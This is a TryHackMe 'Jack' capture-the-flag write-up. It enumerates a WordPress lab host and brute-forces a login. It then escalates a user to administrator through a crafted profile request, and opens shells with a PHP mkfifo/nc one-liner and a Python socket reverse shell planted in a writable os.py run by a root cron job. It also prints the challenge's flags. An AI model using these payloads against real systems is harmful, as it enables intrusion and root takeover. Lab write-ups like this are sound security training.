

# Jack

Compromise a web server running Wordpress, obtain a low privileged user and escalate your privileges to root using a Python module.

[Jack](https://tryhackme.com/room/jack)

## Topic's

- Network Enumeration
- Web Enumeration
- Enumeration (Wordpress)
- Brute Forcing (Wordpress)
- Code Injection (RCE)
- Exploiting Crontab

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Deploy & Root

Connect to our network and deploy this machine.

Add jack.thm to /etc/hosts

```
kali@kali:~/CTFs/tryhackme/Jack$ sudo nmap -Pn -sS -sC -sV -O 10.10.152.186
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-12 13:07 CEST
Nmap scan report for 10.10.152.186
Host is up (0.037s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 3e:79:78:08:93:31:d0:83:7f:e2:bc:b6:14:bf:5d:9b (RSA)
|   256 3a:67:9f:af:7e:66:fa:e3:f8:c7:54:49:63:38:a2:93 (ECDSA)
|_  256 8c:ef:55:b0:23:73:2c:14:09:45:22:ac:84:cb:40:d2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 5.3.2
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Jack&#039;s Personal Site &#8211; Blog for Jacks writing adven...
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/12%OT=22%CT=1%CU=41953%PV=Y%DS=2%DC=I%G=Y%TM=5F8438
OS:FA%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=105%TI=Z%CI=I%II=I%TS=8)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)EC
OS:N(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.27 seconds
```

[http://10.10.152.186/robots.txt](http://10.10.152.186/robots.txt)

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
```

```
kali@kali:~/CTFs/tryhackme/Jack$ wpscan --url http://jack.thm -e u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.1
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://jack.thm/ [10.10.152.186]
[+] Started: Mon Oct 12 13:10:41 2020

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] http://jack.thm/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://jack.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] http://jack.thm/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://jack.thm/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://jack.thm/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.3.2 identified (Insecure, released on 2019-12-18).
 | Found By: Rss Generator (Passive Detection)
 |  - http://jack.thm/index.php/feed/, <generator>https://wordpress.org/?v=5.3.2</generator>
 |  - http://jack.thm/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.3.2</generator>

[+] WordPress theme in use: online-portfolio
 | Location: http://jack.thm/wp-content/themes/online-portfolio/
 | Last Updated: 2020-08-18T00:00:00.000Z
 | Readme: http://jack.thm/wp-content/themes/online-portfolio/readme.txt
 | [!] The version is out of date, the latest version is 0.0.9
 | Style URL: http://jack.thm/wp-content/themes/online-portfolio/style.css?ver=5.3.2
 | Style Name: Online Portfolio
 | Style URI: https://www.amplethemes.com/downloads/online-protfolio/
 | Description: Online Portfolio WordPress portfolio theme for building personal website. You can take full advantag...
 | Author: Ample Themes
 | Author URI: https://amplethemes.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 0.0.7 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://jack.thm/wp-content/themes/online-portfolio/style.css?ver=5.3.2, Match: 'Version: 0.0.7'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <==========================================================================================================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] jack
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://jack.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] wendy
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] danny
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Mon Oct 12 13:10:53 2020
[+] Requests Done: 56
[+] Cached Requests: 9
[+] Data Sent: 11.852 KB
[+] Data Received: 355.445 KB
[+] Memory used: 152.977 MB
[+] Elapsed time: 00:00:11
```

```
jack
wendy
danny
```

```
kali@kali:~/CTFs/tryhackme/Jack$ wpscan -U users.txt -P /usr/share/wordlists/fasttrack.txt --url http://jack.thm
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.1
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://jack.thm/ [10.10.152.186]
[+] Started: Mon Oct 12 13:38:50 2020

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] http://jack.thm/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://jack.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] http://jack.thm/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://jack.thm/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://jack.thm/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.3.2 identified (Insecure, released on 2019-12-18).
 | Found By: Rss Generator (Passive Detection)
 |  - http://jack.thm/index.php/feed/, <generator>https://wordpress.org/?v=5.3.2</generator>
 |  - http://jack.thm/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.3.2</generator>

[+] WordPress theme in use: online-portfolio
 | Location: http://jack.thm/wp-content/themes/online-portfolio/
 | Last Updated: 2020-08-18T00:00:00.000Z
 | Readme: http://jack.thm/wp-content/themes/online-portfolio/readme.txt
 | [!] The version is out of date, the latest version is 0.0.9
 | Style URL: http://jack.thm/wp-content/themes/online-portfolio/style.css?ver=5.3.2
 | Style Name: Online Portfolio
 | Style URI: https://www.amplethemes.com/downloads/online-protfolio/
 | Description: Online Portfolio WordPress portfolio theme for building personal website. You can take full advantag...
 | Author: Ample Themes
 | Author URI: https://amplethemes.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 0.0.7 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://jack.thm/wp-content/themes/online-portfolio/style.css?ver=5.3.2, Match: 'Version: 0.0.7'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:02 <===========================================================================================================================> (21 / 21) 100.00% Time: 00:00:02

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - wendy / changelater
Trying danny / starwars Time: 00:01:08 <============================================================================================================================> (646 / 646) 100.00% Time: 00:01:08

[!] Valid Combinations Found:
 | Username: wendy, Password: changelater

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Mon Oct 12 13:40:16 2020
[+] Requests Done: 698
[+] Cached Requests: 7
[+] Data Sent: 324.727 KB
[+] Data Received: 558.854 KB
[+] Memory used: 228.52 MB
[+] Elapsed time: 00:01:26
```

[http://jack.thm/wp-login.php](http://jack.thm/wp-login.php)



```
POST /wp-admin/profile.php HTTP/1.1
Host: jack.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://jack.thm/wp-admin/profile.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 312
Connection: close
Cookie: wordpress_07f87507b491ce41808428c8c499655c=wendy%7C1602675701%7CI7Ot38YvXPOKQfaBnWyDL0Wz6a3xHz9vOPfbabJ2a4L%7Cecd72d0370bab37d3d470a95617ece07a1e1d67a1519deed59f6c24395f0e529; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_07f87507b491ce41808428c8c499655c=wendy%7C1602675701%7CI7Ot38YvXPOKQfaBnWyDL0Wz6a3xHz9vOPfbabJ2a4L%7C8f0b5e17676e9f7560c2a730d24c08aa2a39b68e405f4ac4faeade15928dd0fa; wp-settings-time-2=1602503110
Upgrade-Insecure-Requests: 1

_wpnonce=61da004af8&_wp_http_referer=%2Fwp-admin%2Fprofile.php&from=profile&checkuser_id=2&color-nonce=e55d209ef2&admin_color=fresh&admin_bar_front=1&first_name=&last_name=&nickname=wendy&display_name=wendy&email=wendy%40tryhackme.com&url=&description=&pass1=&pass2=&action=update&user_id=2&submit=Update+Profile&ure_other_roles=administrator
```

```php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 4444 >/tmp/f');
```

```
kali@kali:~/CTFs/tryhackme/Jack$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.152.186] 35670
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cd /home/jack/
$ ls -la
total 36
drwxr-xr-x 4 jack jack 4096 Jan 10  2020 .
drwxr-xr-x 3 root root 4096 Jan  8  2020 ..
lrwxrwxrwx 1 jack jack    9 Jan 10  2020 .bash_history -> /dev/null
-rw-r--r-- 1 jack jack  220 Jan  8  2020 .bash_logout
-rw-r--r-- 1 jack jack 3771 Jan  8  2020 .bashrc
drwx------ 2 jack jack 4096 Jan  9  2020 .cache
-rw-r--r-- 1 jack jack  655 Jan  8  2020 .profile
drwx------ 2 jack jack 4096 Jan 10  2020 .ssh
-rw-r--r-- 1 root root  140 Jan 10  2020 reminder.txt
-rw-rw-r-- 1 jack jack   33 Jan 10  2020 user.txt
$ cat user.txt
0052f7829e48752f2e7bf50f1231548a
$ cat /home/jack/reminder.txt

Please read the memo on linux file permissions, last time your backups almost got us hacked! Jack will hear about this when he gets back.

$
```

```
jack@jack:~$ chmod +x ./pspy64s
jack@jack:~$ ./pspy64s -pf -i 1000
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=true ||| Scannning for processes every 1s and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2020/10/12 07:04:01 CMD: UID=0    PID=12856  | /usr/bin/python /opt/statuscheck/checker.py
2020/10/12 07:04:01 CMD: UID=0    PID=12855  | /bin/sh -c /usr/bin/python /opt/statuscheck/checker.py
```

```
jack@jack:~$ cd /opt/statuscheck
jack@jack:/opt/statuscheck$ ls -la
total 24
drwxr-xr-x 2 root root  4096 Jan 10  2020 .
drwxr-xr-x 3 root root  4096 Jan 10  2020 ..
-rw-r--r-- 1 root root    92 Jan 10  2020 checker.py
-rw-r--r-- 1 root root 10098 Oct 12 07:04 output.log
jack@jack:/opt/statuscheck$ cat checker.py
import os

os.system("/usr/bin/curl -s -I http://127.0.0.1 >> /opt/statuscheck/output.log")
jack@jack:/opt/statuscheck$ ls -l /usr/lib/python2.7/os.py
-rw-rw-r-x 1 root family 25908 Jan 10  2020 /usr/lib/python2.7/os.py
jack@jack:/opt/statuscheck$ nano /usr/lib/python2.7/os.py
```

```py
import socket
import pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.9.0.54",5555))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

```
kali@kali:~/CTFs/tryhackme/Jack$ nc -nlvp 5555listening on [any] 5555 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.152.186] 33860
root@jack:~# whoami
whoami
root
root@jack:~# cd /root
cd /root
root@jack:~# ls
ls
root.txt
root@jack:~# cat root.txt
cat root.txt
b8b63a861cc09e853f29d8055d64bffb
root@jack:~#
```

1. Gain initial access and obtain the user flag.

`0052f7829e48752f2e7bf50f1231548a`

2. Escalate your privileges to root. Whats the root flag?

`b8b63a861cc09e853f29d8055d64bffb`
